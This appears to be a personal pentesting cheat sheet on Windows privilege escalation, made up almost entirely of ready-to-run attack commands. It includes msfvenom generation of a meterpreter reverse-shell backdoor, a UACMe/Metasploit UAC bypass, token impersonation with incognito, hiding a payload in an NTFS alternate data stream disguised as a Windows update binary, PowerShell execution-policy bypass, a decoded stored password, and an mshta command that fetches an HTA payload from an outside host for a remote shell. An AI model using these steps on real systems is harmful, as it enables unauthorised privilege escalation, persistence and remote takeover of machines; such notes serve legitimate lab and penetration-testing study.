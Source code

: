 # Windows Privilege Escalation

--------------------------------------------------------------------

## Windows Kernel Exploitation: (Not recommened can cause crashes)

```
Windows NT (Predefined)

Windows-Exploit-Suggester (Github Tool)

Windows-Kernel-Exploits (Github Tool)
```

--------------------------------------------------------------------

## UAC: (need to have an user inside the administrators group)

```
$ net localgroup administrators

UACMe (Github tool)
    
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > backdoor.exe
use multi/handler (same payload as the paylaod)
set same ip and port 
.\Akagi64.exe 23 C:\Temp\backdoor.exe
    

exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
```

--------------------------------------------------------------------

## Windows Access Tokens: (SeImpersonatePrivilege, SeAssignPrimaryToken, SeCreateToken)

```
getprivs

load incognito

list_tokens -u

impoersonate_token “token_name”

migrate to other process
```

--------------------------------------------------------------------

## Alternate Data Streams:

> [!NOTE]
> Is an NTFS (New Tchnology File System) file attribute that was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

> Data stream (default stream that contains data of the file) and Resource stream (typically contains the metadata of the file).

```
notepad text.txt:secret.txt

type paylaod.exe > windowslog.txt:winpeas.exe

start windowslog.txt:windows.exe

cd Windows\System32

mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
```

--------------------------------------------------------------------


## PrivescCHECK - PowerShell script

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

powershell -ep bypass (PowerShell execution policy bypass)
. .\PowerUp.ps1
Invoke-PrivescAudit

Decode on powershell

Commands:
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

runas.exe /user:administrator cmd


> Basic Mode

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"


> Extended Mode + Export Txt Report

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
runas.exe /user:administrator cmd
hello_123321
use exploit/windows/misc/hta_server
Copy the generated payload i.e “[http://10.10.15.2:8080/jxEyD3w.hta”](http://10.10.15.2:8080/jxEyD3w.hta%E2%80%9D) and run it on cmd.exe
with mshta command to gain the meterpreter shell.
mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
```

--------------------------------------------------------------------